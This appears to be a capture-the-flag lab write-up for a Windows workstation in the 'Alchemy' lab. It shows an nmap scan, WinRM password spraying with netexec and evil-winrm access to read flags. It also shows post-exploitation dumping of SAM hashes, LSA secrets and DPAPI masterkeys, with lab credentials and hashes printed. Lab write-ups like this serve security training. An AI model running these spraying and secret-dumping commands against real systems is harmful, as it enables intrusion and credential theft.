


As usual I will start by checking for all the alive services over all the TCP protocol:

```bash
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
5040/tcp  open  unknown       syn-ack ttl 64
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Google Fuchsia (87%), IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:google:fuchsia cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Google Fuchsia (87%), IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.99%E=4%D=4/20%OT=135%CT=%CU=%PV=Y%G=N%TM=69E622A2%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=107%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=106%GCD=1%ISR=108%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 21.140 days (since Mon Mar 30 11:35:36 2026)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-20T12:56:52
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54551/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42495/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 33950/udp): CLEAN (Timeout)
|   Check 4 (port 15878/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: WS01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6b:54 (VMware)
| Names:
|   WS01<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WS01<20>             Flags: <unique><active>
| Statistics:
|   00 50 56 94 6b 54 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT      ADDRESS
1   14.60 ms 172.16.0.32

```

# Foothold

From the credentials obtained by DPAPI i can now login via WINRM:

```bash
netexec winrm 172.16.0.0/24 -u calde -p 'UaqcsvzMxEjZ'
WINRM       172.16.0.2      5985   DC               [*] Windows 8.1 / Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) 
WINRM       172.16.0.2      5985   DC               [-] alchemy.htb\calde:UaqcsvzMxEjZ
WINRM       172.16.0.32     5985   WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:WS01) 
WINRM       172.16.0.33     5985   WS02             [*] Windows 10 / Server 2019 Build 19041 (name:WS02) (domain:WS02) 
WINRM       172.16.0.32     5985   WS01             [+] WS01\calde:UaqcsvzMxEjZ (Pwn3d!)
WINRM       172.16.0.33     5985   WS02             [-] WS02\calde:UaqcsvzMxEjZ
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

From here I can grab another flag:

```bash
     ------ ----                                                                  
-a----         12/8/2023   4:18 AM             50 flag.txt                                                              


evil-winrm-py PS C:\Users\calde\Desktop> cat flag.txt
ALCHEMY{S0ME71Mes_17S_8e77ER_N07_70_S4Ve_EVeRY0nE}
evil-winrm-py PS C:\Users\calde\Desktop>


```

Interestingly. this new user has some Keepass databases saved locally on his machine:

```bash
evil-winrm-py PS C:\Users\calde\Documents> ls


    Directory: C:\Users\calde\Documents


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         12/3/2023  10:31 AM           1854 Database.kdbx                                                         
-a----         12/3/2023  10:27 AM            240 Database.keyx                                                         
-a----         12/3/2023  10:29 AM         315447 keepass.pdf    
```

Now by using the key I can open and grab another admin user?  




And grab another flag:

```bash
ÀÄÄÄVideos
    ÀÄÄÄCaptures
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
ALCHEMY{Wh3R3_D1d_73rR4_M4r14n4_g0?}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

Without further do I will also perform a quick post-exploitation by dumping the rest of the secrets from memory:

```bash
netexec smb 172.16.0.32 -u Administrator -p Vwgdn23cpBQM --sam --lsa --dpapi
SMB         172.16.0.32     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:None)
SMB         172.16.0.32     445    WS01             [+] WS01\Administrator:Vwgdn23cpBQM (Pwn3d!)
SMB         172.16.0.32     445    WS01             [*] Dumping SAM hashes
SMB         172.16.0.32     445    WS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:69d5682ba56552dd3dd30aef026b8a7d:::
SMB         172.16.0.32     445    WS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.32     445    WS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.32     445    WS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
SMB         172.16.0.32     445    WS01             calde:1002:aad3b435b51404eeaad3b435b51404ee:c272dcb8503ef14ca7837d20785bf613:::
SMB         172.16.0.32     445    WS01             [+] Added 5 SAM hashes to the database
SMB         172.16.0.32     445    WS01             [*] Dumping LSA secrets
SMB         172.16.0.32     445    WS01             WS01\calde:UaqcsvzMxEjZ
SMB         172.16.0.32     445    WS01             dpapi_machinekey:0x8c3159c752f9a9ae2cb3d1ad589df0f678d7a453
dpapi_userkey:0x66ab675890bdde999ede9b7912b40959a936adbb
SMB         172.16.0.32     445    WS01             Security questions for user S-1-5-21-3089243881-3525850343-252262830-1001: 
 - Version : 1
 | Question: What was your childhood nickname?
 | |--> Answer: Welcome1
 | Question: What’s the name of the city where your parents met?
 | |--> Answer: Welcome1
 | Question: What’s the name of the first school you attended?
 | |--> Answer: Welcome1
SMB         172.16.0.32     445    WS01             [+] Dumped 3 LSA secrets to /home/user/.nxc/logs/lsa/WS01_172.16.0.32_2026-04-20_164200.secrets and /home/user/.nxc/logs/lsa/WS01_172.16.0.32_2026-04-20_164200.cached
SMB         172.16.0.32     445    WS01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.0.32     445    WS01             [+] Got 17 decrypted masterkeys. Looting secrets...

```